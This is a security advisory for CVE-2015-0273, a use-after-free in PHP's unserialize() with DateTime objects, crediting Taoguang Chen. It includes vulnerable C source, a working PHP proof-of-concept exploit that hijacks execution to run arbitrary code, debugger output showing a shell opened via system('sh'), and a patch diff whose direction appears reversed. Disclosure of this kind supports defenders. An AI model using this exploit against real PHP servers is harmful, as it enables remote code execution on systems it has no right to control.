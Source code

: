 ### Use After Free Vulnerability in unserialize() with DateTime* [CVE-2015-0273]
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.1.29 - Release Date: 2015.2.20
 
> A use-after-free vulnerability was discovered in unserialize() with DateTime/DateTimeZone objects's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.6  
Affected is PHP 5.5 < 5.5.22  
Affected is PHP 5.4 < 5.4.38  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_initialize_from_hash(php_date_obj **dateobj, HashTable *myht)
{
	zval             *z_date;
	zval             *z_timezone;
	zval             *z_timezone_type;
	zval              tmp_obj;
	timelib_tzinfo   *tzi;
	php_timezone_obj *tzobj;

	z_date = zend_hash_str_find(myht, "date", sizeof("data")-1);
	if (z_date) {
		convert_to_string(z_date);
		z_timezone_type = zend_hash_str_find(myht, "timezone_type", sizeof("timezone_type")-1);
		if (z_timezone_type) {
			convert_to_long(z_timezone_type);
			z_timezone = zend_hash_str_find(myht, "timezone", sizeof("timezone")-1);
			if (z_timezone) {
				convert_to_string(z_timezone);

...

static int php_date_timezone_initialize_from_hash(zval **return_value, php_timezone_obj **tzobj, HashTable *myht TSRMLS_DC)
{
	zval            **z_timezone = NULL;
	zval            **z_timezone_type = NULL;
 
	if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
		if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
			convert_to_long(*z_timezone_type);
			if (SUCCESS == timezone_initialize(*tzobj, Z_STRVAL_PP(z_timezone) TSRMLS_CC)) {
				return SUCCESS;
			}
		}
	}
	return FAILURE;
}
```
 
The convert_to_long() leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;i:1;}s:8:"timezone";s:3:"UTC";}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:4;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\x00\x00\x00\x00";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;i:1;}s:8:"timezone";s:3:"UTC";}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;R:4;}s:8:"timezone";s:3:"UTC";}}';

$z = unserialize($data2);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```

The Fix
------------
The latest PHP 5.4/5.5/5.6 series updates has fixed these vulnerabilities, the patch available to PHP 5.3 serie.

``` diff
diff --git a/php-5.3.29-fixed/ext/date/php_date.c b/php-5.3.29/ext/date/php_date.c
index 7b646f8..75bdf33 100644
--- a/php-5.3.29-fixed/ext/date/php_date.c
+++ b/php-5.3.29/ext/date/php_date.c
@@ -2573,9 +2573,12 @@ static int php_date_initialize_from_hash(zval **return_value, php_date_obj **dat
 	timelib_tzinfo   *tzi;
 	php_timezone_obj *tzobj;
 
-	if (zend_hash_find(myht, "date", 5, (void**) &z_date) == SUCCESS && Z_TYPE_PP(z_date) == IS_STRING) {
-		if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS && Z_TYPE_PP(z_timezone_type) == IS_LONG) {
-			if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS && Z_TYPE_PP(z_timezone) == IS_STRING) {
+	if (zend_hash_find(myht, "date", 5, (void**) &z_date) == SUCCESS) {
+		convert_to_string(*z_date);
+		if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
+			convert_to_long(*z_timezone_type);
+			if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
+				convert_to_string(*z_timezone);
 
 				switch (Z_LVAL_PP(z_timezone_type)) {
 					case TIMELIB_ZONETYPE_OFFSET:
 ```
